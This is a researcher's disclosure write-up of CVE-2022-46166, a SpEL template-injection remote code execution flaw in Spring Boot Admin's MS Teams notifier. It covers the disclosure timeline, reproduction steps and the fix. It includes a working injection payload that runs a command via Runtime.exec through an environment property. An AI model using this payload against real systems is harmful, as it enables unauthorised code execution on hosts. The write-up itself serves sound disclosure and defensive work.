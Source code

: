 ```yaml
---
tags:
  - CVE
  - Java
  - Spring Boot
  - Template Injection
---
```


# CVE-2022-46166 - Template Injection - Remote Code Execution

CWE-94: Improper Control of Generation of Code ('Code Injection')

## Disclosure Timeline
The communication was very professional and fast from Codecentric:

* 28.11.2022 - Notification of vulnerability via E-Mail
* 02.12.2022 - Confirmation of the vulnerability
* 09.12.2022 - [Github Security Advisory](https://github.com/codecentric/spring-boot-admin/security/advisories/GHSA-w3x5-427h-wfq6) and CVE assignment
* 12.12.2022 - Disclosure coordination and confirmation of this blog with Codecentric

## Asset
* Github: https://github.com/codecentric/spring-boot-admin
* Tested Version: 2.7.7
* Last Commit: [85ec2b7]()

## Pre-Requisites
* Authenticated User
* Notification support enabled for Teams (potentially others)

## Issue
The _Spring Boot Admin_ application allows to evaluate code via a dynamic Spring Boot environment variable that can be controlled from within the web application. This will allow an attacker with access to the application to run arbitrary code on the host.

Summary of the attack steps:

1. Build servlet application with MS Teams notify support.
2. Create environment variable with Java gadget via app.
3. Trigger event for notification.
4. Code injection gets executed.


!!! info

    __IMPORTANT:__ As the following proof of concept will show only the easiest way to abuse this feature other ways can be possible, which could reduce the given pre-requisite. 

A scenario that should be checked is:

1. A `CustomNotifier` that notifies for unauthorized login events of the `auditevents` endpoint.
2. A user could wish to log the username of a failed authentication.
3. The attacker controlled username could contain a Java gadget which gets then executed.
4. Which resulting in an unauthenticated remote code execution.

## Proof of Concept
Clone the _Spring Boot Admin_ application:
```sh
git clone https://github.com/codecentric/spring-boot-admin.git
```
We will use the sample servlet application in the repository to create the test candidate for the research.

Add the following to the file `spring-boot-admin-samples/spring-boot-admin-sample-servlet/src/main/resources/application.yml`:
```yaml linenums="1" title="application.yml"
  boot:
    admin:
      notify:
        ms-teams:
          webhook-url: "http://localhost:8081"
```
This will enable the MS Teams notification feature.

As I don't have a valid Teams subscription to add an actual web hook we will just use any localhost address and accept the errors thrown from the application.

We will build the application with:
```sh
./mvnw clean package
```

After everything is finished we start the app with:
```sh
cd spring-boot-admin-samples/spring-boot-admin-sample-servlet/target
java -jar spring-boot-admin-sample-servlet.jar
```

This will start the servlet and the UI can be accessed at `http://localhost:8080`.
The username and password are `user:password` as detailed in the `application.yml` file we changed before.

Login and open the `Environment` tab for the instance.

`http://localhost:8080/instances/a10163509cb8/env`
![Environment](/CVE/img/Environment.png)

Add the following environment variable:

* Property name: `spring.boot.admin.notify.ms-teams.theme_color`
* Value: `#{T(java.lang.Runtime).getRuntime().exec('open -a calculator')}`
(The java gadget will open the calculator on MacOS. For Linux or windows the payload can be easily adapted.)

Update and refresh the context.

Now you need to trigger a notification. 

The easiest is when you delete the application.

`http://localhost:8080/applications`
![Application](/CVE/img/Application.png)

The following gif demonstrates the exploit:

![Exploit](/CVE/img/exploit.gif)

The vulnerable code can be found [here](https://github.com/codecentric/spring-boot-admin/blob/master/spring-boot-admin-server/src/main/java/de/codecentric/boot/admin/server/notify/MicrosoftTeamsNotifier.java#L233-L235):
```java linenums="233" title="MicrosoftTeamsNotifier.java"
	public void setThemeColor(String themeColor) {
		this.themeColor = parser.parseExpression(themeColor, ParserContext.TEMPLATE_EXPRESSION);
	}
```

## Remediation

For the remediation review the patch [here](https://github.com/codecentric/spring-boot-admin/commit/320eab19ff76e2c012623a1eb53af6f4ae26e20b).

The `org.springframework.expression.spel.support.SimpleEvaluationContext`([see docs](https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/expression/spel/support/SimpleEvaluationContext.html)) class replaces the `org.springframework.expression.spel.support.StandardEvaluationContext` class.

> In many cases, the full extent of the SpEL language is not required and should be meaningfully restricted. Examples include but are not limited to data binding expressions, property-based filters, and others. To that effect, SimpleEvaluationContext is tailored to support only a subset of the SpEL language syntax, e.g. excluding references to Java types, constructors, and bean references. 